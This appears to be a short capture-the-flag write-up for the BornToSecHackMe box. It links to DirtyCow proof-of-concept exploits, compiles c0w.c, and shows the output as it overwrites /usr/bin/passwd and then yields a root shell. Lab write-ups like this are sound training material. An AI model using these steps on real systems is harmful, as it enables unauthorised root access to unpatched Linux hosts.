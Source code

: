 [See detailed writeup here](../writeup1.md)

Log in as any user account.

https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

Here you can see other different DirtyCow exploits that you can use.

Unlike the previous one, we will use c0w.c this time.


```
gcc -pthread c0w.c  -o c0w
```

Now we will run it...

```
zaz@BornToSecHackMe:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

```

All we need to do is;

```
zaz@BornToSecHackMe:~$ /usr/bin/passwd

root@BornToSecHackMe:/home/zaz# whoami
root

root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```